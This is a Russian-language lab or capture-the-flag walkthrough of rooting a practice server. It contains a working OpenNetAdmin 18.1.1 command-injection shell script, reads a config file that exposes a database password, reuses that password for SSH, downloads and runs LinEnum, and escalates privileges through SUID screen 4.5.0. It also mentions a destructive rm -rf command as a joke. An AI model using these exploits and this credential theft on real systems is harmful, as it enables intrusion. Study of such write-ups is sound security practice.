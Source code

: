 # 1) Поиск скрытых файлов и каталогов

Используем [dirb](https://github.com/v0re/dirb) для поиска файлов и каталогов на сервере:

`$ dirb http://9215fc5b9c9d.ngrok.io `
Обнаруживаем директорию /ona/,переходим по ней и видем меню OpenNetAdmin.
Изучив главную страницу замечаем сообщение:
```
You are NOT on the latest release version
Your version    = v18.1.1
```
Теперь мы знаем,что на сервере стоит OpenNetAdmin версии 18.1.1.
# 2) Используем уязвимость в OpenNetAdmin
Ищем уязвимости на OpenNetAdmin 18.1.1,находим bash скрипт,который даёт нам RCE:
```
#!/bin/bash
URL="http://9215fc5b9c9d.ngrok.io/ona/"
while true;do
 echo -n "$ "; read cmd
 curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' 
done
```
Используя RCE полученное ранее узнаём,от какого пользователя мы выполняем команды
```
$ whoami
www-data
```
Данный пользователь не обладает root правами поэтому ищем способ повышенния своих привелегий.

# 3) Ищем дырочки
Кроме нас есть пользователь `Andrew`, в которого очень хотелось бы войти ( ͡• ͜ʖ ͡• )

На гите чекаем [ona](https://github.com/opennetadmin/ona) и находим приколы, а именно как чё устанавливается [ona install.php](https://github.com/opennetadmin/ona/blob/master/install/install.php)

Нас интересует строка
```
$dbconfwrite = @is_writable($onabase.'/www/local/config/') ? 'Yes' : '<font color="red">No</font>';
```
Отсюда делаем вывод, что надо порыться в `/opt/ona/www/local/config` через наш шелл
```
ls -l /opt/ona/www/local/config
```
Видим содержимое:
```
database_settings.inc.php
motd.txt.example
```
Чекаем пхпышечку с помощью `cat`
```
cat /opt/ona/www/local/config/database_settings.inc.php
```
Вывод:
```
$  cat ./local/config/database_settings.inc.php   
<?php

$ona_contexts=array (
  'DEFAULT' => 
  array (
    'databases' => 
    array (
      0 => 
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'mH1XDvt7I,&6',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);
```
Вау-вау-вау приколы стоили рофляночки, мы тут видим пароль `mH1XDvt7I,&6`

Первое, что мы пробуем --- войти в нашего Andrew с этим паролем по ssh
```
ssh andrew@9215fc5b9c9d.ngrok.io -p 17408
```
А в поле для пароля пихаем `mH1XDvt7I,&6`, и мы вошли в нашего друга))

Друзья, вы очень юморные я сидел и хохотал

# 4) Обнаружение уязвимости для повышения прав пользователя
 
 Скачиваем на машину скрипт [LinEnum](https://github.com/rebootuser/LinEnum) - невероятно весёлый bash-скрипт, который собирает всю инфу, которая может позволить стать рутом и прописать заветное `rm -rf --no-preserve-root /`. 
 Скачиваем скрипт на машину с помощью [тулзы `wget`](https://www.gnu.org/software/wget/). Единственный аргумент здесь - адрес, с которого мы качаем ПрИкОлЬччИкИ =).
 
 ```
 $ wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
--2020-08-17 15:59:42--  https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.84.133
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.84.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 46631 (46K) [text/plain]
Saving to: ‘LinEnum.sh’

LinEnum.sh                100%[===================================>]  45,54K  --.-KB/s    in 0,1s    

2020-08-17 15:59:43 (369 KB/s) - ‘LinEnum.sh’ saved [46631/46631]
 ```
 
 Далее позволяем скрипту запускаться и запускаем, уводя вывод в какой-нибудь другой файл.
 ```
 $ chmod u+x LinEnum.sh
 $ ./LinEnum.sh > output
 ```
 
 Перекрестившись, открываем output и видим кучу строк кода. От незнания и чтобы сократить отчёт, допустим, что мы интуитивно открыли блок `SUID Files` и увидели в нём то, что мы можем запускать `/bin/screen-4.5.0` от рута. Приятно, что сказать.
 
 # 5) Эксплуатация уязвимости
 
 Находим [скрипт](https://www.exploit-db.com/exploits/41154), позволяющий успешно произвести эскалацию прав, копипастим его в отдельный файл .sh, позволяем запускаться и запускаем
 
 # Победа B)
 теперь вы рут и можете делать что хотите (в рамках закона и морали, но вот кстати вопрос: стоит ли следовать закону если всем подчиняющимся ему очевидна его бессмысленность и/или пагубное влияние?)
